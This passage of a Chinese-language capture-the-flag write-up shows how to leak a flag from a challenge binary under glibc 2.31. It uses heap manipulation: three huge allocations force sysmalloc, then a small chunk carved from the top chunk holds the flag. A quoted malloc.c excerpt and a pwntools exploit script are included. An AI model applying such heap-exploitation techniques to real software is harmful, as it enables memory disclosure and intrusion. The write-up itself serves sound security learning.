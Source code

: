 

## 更好的解法

malloc 随机 size 写 flag 时，size 的范围是 [0x300, 0x500]，带有 flag 的 chunk size 可能不在 tcache size 范围内，被 free 后，下一 chunk 是 top chunk，和 top chunk 合并。

申请一个 size 较小的 chunk，切割 top chunk，flag 就在其中。

需要解决的问题是，使用 add 填充 qword_202120[0]、qword_202120[1]、qword_202120[2]，又不使用 top chunk。add 到 qword_202120[3] 时才切割 top chunk。

由于 add 对 size 没有限制，容易想到解决方法是先申请 3 个巨大的 size。

```c
glibc-2.31\glibc-2.31\malloc\malloc.c
      /*
         Otherwise, relay to handle system-dependent cases
       */
      else
        {
          void *p = sysmalloc (nb, av);
          if (p != NULL)
            alloc_perturb (p, bytes);
          return p;
        }
```

malloc 时，如果 heap 不够用，最后会调用 `sysmalloc()` 扩展内存。之后再 malloc 较小 size 时，仍然可以切割 top chunk。

由此可以写出 exp

```python
from pwn import *
def menu(choice):
    r.recvuntil('choice:')
    r.sendline(choice)

def add(size):
    menu('')
    r.recvuntil('size:\n')
    r.sendline(str(size))

def edit(index,data):
    menu('111')
    r.recvuntil('index:\n')
    r.sendline(str(index))
    r.recvuntil('Content:\n')
    r.send(data)

def delete(index):
    menu('11')
    r.recvuntil('index:\n')
    r.sendline(str(index))

def show(index):
    menu('1')

while True:
    r = process('./pwn')
    add(0x200000)
    add(0x200000)
    add(0x200000)
    pause()
    add(0x40)
    edit(3,'x'*0x10)
    r.recvuntil('choice:')
    r.shutdown_raw('send')
```